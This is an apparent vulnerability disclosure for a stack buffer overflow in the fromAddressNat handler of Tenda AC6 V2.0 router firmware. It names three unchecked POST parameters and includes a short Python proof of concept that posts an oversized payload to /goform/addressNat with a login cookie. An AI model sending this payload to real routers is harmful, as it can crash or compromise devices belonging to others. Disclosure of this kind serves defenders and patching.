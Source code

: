# Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromAddressNat"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

Within the `fromAddressNat` function, a user can craft a POST request to supply three parameters: **`entrys`**, **`mitInterface`**, and **`page`**. These parameters are then directly passed to stack-allocated variables using `sprintf` **without any prior validation or checks**. Any one of these three parameters can independently lead to a **stack overflow**.

![image-20250618173006573](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618173006573.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'entrys':payload,#vuln
            'mitInterface':b'1',#vuln
            'page':b'1'#vuln}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2000+b'\n'
url="http://192.168.1.1/goform/addressNat"
send_payload(url, payload)   
```

![image-20250618173624226](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618173624226.png)